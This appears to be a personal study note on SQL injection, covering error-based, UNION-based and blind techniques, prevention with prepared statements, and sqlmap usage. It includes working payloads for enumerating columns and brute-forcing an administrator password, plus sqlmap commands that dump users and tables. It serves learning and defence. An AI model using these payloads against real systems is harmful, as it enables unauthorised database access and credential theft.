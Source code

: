# SQL Injection
- User supplied data is considered as part of the code/SQL query instead of just being considered as data.

## In-band (Classic) SQLi
- attacker uses the same communication channel to perform the attack and get the results of the attack.
- Error based: force the db to generate an error to give more info about it Eg: the db version, the db query used, etc.
```
www.random.com/app.php?id='
```
- Union based: use the UNION operater to execute queries of your liking on the db. 
> NOTE: Fir UNION based SQLi, 
> The number of columns selected by both queries should be the same.
> The field types of both queries should be the same.
> The columns in the db should be known for the attacker to craft the UNION query.
```
# Finding the number of fields
# Type 1: Start by injecting NULL and then increase the number of NULLs till the query does not return an error
1337 UNION SELECT NULL; -- -
blabla' UNION SELECT NULL, NULL; -- -

# Type 2: Use ORDER BY: If the number of columns is 2, then at order by 3 it will return an error because the third column does not exist.
1337 ORDER BY 1 -- -
1337 ORDER BY 2 -- -
1337 ORDER BY 3 -- -

# If the SQL error is not visible (no response/empty page and you are not sure if it is blocked or erroring out)
# Use a valid id
1 UNION SELECT NULL; -- -
nybble04' UNION SELECT NULL; -- -

# To find the type of the field, substitute NULL with different data types.
```

### Example:

To find the column names of the people table (see [Try Hack Me Burp Repeater](https://tryhackme.com/module/learn-burp-suite))
```
# This will return only the first row of the output, so you will only see one column name
' UNION SELECT column_name, NULL, NULL, NULL, NULL FROM information_schema.columns WHERE table_name="people"

# To see all rows of the output use group_concat
' UNION SELECT group_concat(column_name), NULL, NULL, NULL, NULL FROM information_schema.columns WHERE table_name="people"
```

## Inferential (Blind) SQLi
- attacker can't see the acual results of their query, but they can use other inferential parameters
- Boolean: see True/False results.
```
# Send an input that you know is accepted/True
' and 1=1

# Send an input that you know is not accepted/False
' and 1=2

# Observe the behaviour/response of the application for each input.
Eg: True -> "Success" ; False -> "Try again"
```

### Example:
- We can bruteforce the password using SUBSTRING(string, start_index, no_chars_to_extract).
```
' and SUBSTRING((SELECT password from users WHERE username = 'administrator'), 1, 1) ='a'    # check first char is a
' and SUBSTRING((SELECT password from users WHERE username = 'administrator'), 1, 1) ='b'    # check first char is b
                                                    ... ... ...
' and SUBSTRING((SELECT password from users WHERE username = 'administrator'), 2, 1) ='a'    # check second char is a
```
- Time: observe the time taken for query completion.

3. **Out-of-Band SQLi** - Attacker can't use the same channel and has to use a different network connection to make the attack. Eg: DNS or HTTP request.
> We need to know the type of database.
> We need to know if the functions are enabled in the database.

## Defences
**Primary Defenses**
1. Prepared statements (Primary - Mandatory)
- Java
```java
String custname = request.getParameter("customerName");
String query = "SELECT account_balance FROM user_data WHERE user_name = ?";
PreparedStatement pstms = connection.prepareStatement (query);
pstms.setString(1, custname);
ResultSet results = pstmt.executeQuery();
```
- PHP
```php
$custname = $_GET["customerName"];
$stmt = $conn->prepare("SELECT account_balance FROM user_data WHERE user_name = ?");
$stmt->bind_param("s", $custname);                                                    # s is the type of the parameters passed
$stmt->execute();
```
2. Stored Procedures (Primary - Secondary)
3. Whitelist input validation: allow only some characters in the field value (Primary - Secondary)
4. Escape user supplied inputs (Primary - Mandatory)

**Additional Defenses (good to have)**
1. Least privilege: Do not run the data as root, run with least privileges (Additional - defence in depth)
2. Disable unnecessary funtions: Prevents OOB attacks (Additional - defence in depth)
3. CIS Benchmark Audits (Additional - defence in depth)
4. Apply db patches (Additional - defence in depth)

## SQL Map
Test if GET param is vulnerable
```
sqlmap –u <URL> -p <injection parameter> [options]
```
Test if POST param is vulnerable
```
Intercept request in Burp
Save raw form of request to a file
sqlmap –r <request file> -p parameter [options]
```

> If the previous two queries find that the target request is vulnerable to SQLi, we can proceed to dump information from the database using the commands below.

Extract db banner
```
sqlmap -u <target> --banner <other options>
```
Extract users
```
sqlmap -u <target> --users <other options>
```
Check if pwned user is an administrator
```
sqlmap -u <target> --is-dba <other options>
```
Extract databases
```
sqlmap -u <target> --dbs <other options>
```
Extract tables
```
sqlmap -u <target> -D <database> --tables <other options>
```
See columns of the table
```
sqlmap -u <target> -D <database> -T <tables, comma separated list> --columns <other options>
```
Get the values of the table columns (dump table)
```
sqlmap -u <target> -D <database> -T <table> -C <columns list> --dump <other options>
```
Test for blind injection
```
sqlmap -u <target> --string <true_string / false_string>
```

**Resources**
1. [Rana Khalil](https://www.youtube.com/watch?v=1nJgupaUPEQ&list=PLuyTk2_mYISLaZC4fVqDuW_hOk0dd5rlf)
2. [Payloads for different databases](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
